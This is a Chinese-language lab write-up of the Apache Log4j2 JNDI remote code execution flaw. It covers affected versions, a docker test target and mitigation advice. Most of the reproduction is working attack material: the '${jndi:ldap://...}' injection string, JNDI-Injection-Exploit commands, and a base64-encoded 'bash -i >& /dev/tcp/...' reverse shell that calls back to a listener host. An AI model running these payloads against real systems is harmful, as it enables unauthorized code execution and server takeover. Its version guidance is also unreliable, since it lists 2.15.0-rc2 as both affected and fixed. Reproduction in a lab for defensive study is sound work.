 Apache Log4j远程代码执行漏洞分析与复现利用

0x1：漏洞描述
2021年12月9日，Apache Log4j 的远程代码执行漏洞细节被公开，大量的业务框架都使用了该组件。此次漏洞是用于 Log4j2 提供的 lookup 功能造成的，该功能允许开发者通过一些协议去读取相应环境中的配置。该漏洞一旦被攻击者利用会造成严重危害。经过快速分析和确认，该漏洞影响范围极其广泛，危害极其严重。
Apache Log4j2是一款优秀的Java日志框架。由于Apache Log4j2某些功能存在递归解析功能，未经身份验证的攻击者通过发送特别构造的数据请求包，可在目标服务器上执行任意代码，攻击者可直接构造恶意请求，触发远程代码执行漏洞。漏洞利用无需特殊配置，经验证Apache Struts2、Apache Solr、Apache Druid、Apache Flink等均受影响。

0x2：受影响版本
Apache Log4j 2.x <= 2.15.0-rc2

供应链影响范围，已知受影响应用及组件：
Apache Solr、Apache Flink、Apache Druid、srping-boot-strater-log4j2、dubbo、Flume、Redis

0x3：漏洞级别
高危、远程代码执行，目前漏洞rce-exp已网上公开，找到受影响的参数，提交
“${jndi:ldap://****. dnslog.cn/exp}”进行测试。

0x4：漏洞环境搭建与复现
漏洞靶场搭建，网上有搭建好的docker环境漏洞靶场，需要先安装docker环境

docker pull registry.cn-hangzhou.aliyuncs.com/fengxuan/log4j_vuln
![image](https://github.com/rabbitsafe/Apache-Log4j_RCE/blob/main/1.png) 
docker run -it -d -p 8888:8080 --name log4j_vuln_container registry.cn-hangzhou.aliyuncs.com/fengxuan/log4j_vuln 
docker exec -it log4j_vuln_container /bin/bash
/bin/bash /home/apache-tomcat-8.5.45/bin/startup.sh

执行完以上操作，可以访问存在Apache Log4j远程代码执行漏洞，这里192.168.32.168的ip地址是我安装了docker虚拟机的ip地址，url如下：
http://192.168.32.168:8888/webstudy/hello-fengxuan

由于该漏洞是jndi加载ldap协议就可以触发漏洞，使用
JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar进行ldap协议监听，并提前输入好需要执行的命令，命令如下：
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/88888888888" -A 192.168.32.1
-C后面添加的是需要执行的命令
-A后面是监听的IP地址
 ![image](https://github.com/rabbitsafe/Apache-Log4j_RCE/blob/main/2.png) 
只要根据JDK的版本，提交不同的ldap
如果JDK 是1.7，可以使用
ldap://192.168.32.1:1389/sjrchi
如果JDK 是1.8，可以使用
ldap://192.168.32.1:1389/fojm7q

通过BurpSuite提交数据包，由于url只接受需POST数据，受影响的参数是c，在验证的时候，一定要加入
Content-Type: application/x-www-form-urlencoded;
![image](https://github.com/rabbitsafe/Apache-Log4j_RCE/blob/main/3.png)  
已经接收到ldap协议数据
![image](https://github.com/rabbitsafe/Apache-Log4j_RCE/blob/main/4.png)  
如果Apache Log4j远程代码执行漏洞成功，就会执行命令touch /tmp/88888888888，在tmp目录下建一个88888888888文件

进入docker环境漏洞靶场，查看命令是否执行成功，文件成功被创建
docker exec -it log4j_vuln_container /bin/bash
![image](https://github.com/rabbitsafe/Apache-Log4j_RCE/blob/main/5.png)  

通过修改-C里面的命令内容，获取shell
对bash -i >& /dev/tcp/192.168.32.1/22 0>&1命令进行加密处理
![image](https://github.com/rabbitsafe/Apache-Log4j_RCE/blob/main/6.png)  
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjMyLjEvMjIgMD4mMQ==}|{base64,-d}|{bash,-i}" -A 192.168.32.1
![image](https://github.com/rabbitsafe/Apache-Log4j_RCE/blob/main/7.png)  
![image](https://github.com/rabbitsafe/Apache-Log4j_RCE/blob/main/8.png)  
成功获取shell
![image](https://github.com/rabbitsafe/Apache-Log4j_RCE/blob/main/9.png)  

0x5：漏洞修复建议

1、升级Apache Log4j2组件到最新版本（log4j-2.15.0-rc2）：
https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc2
2、其他缓解措施：
（1）禁止没有必要的业务访问外网
（2）修改jvm参数 -Dlog4j2.formatMsgNoLookups=true
（3）修改配置log4j2.formatMsgNoLookups=True
（4）将系统环境变量 FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS 设置为 true
（5）禁止使用Apache Log4j2服务器外连，升级JDK 11.0.1 8u191 7u201 6u211或更高版本。
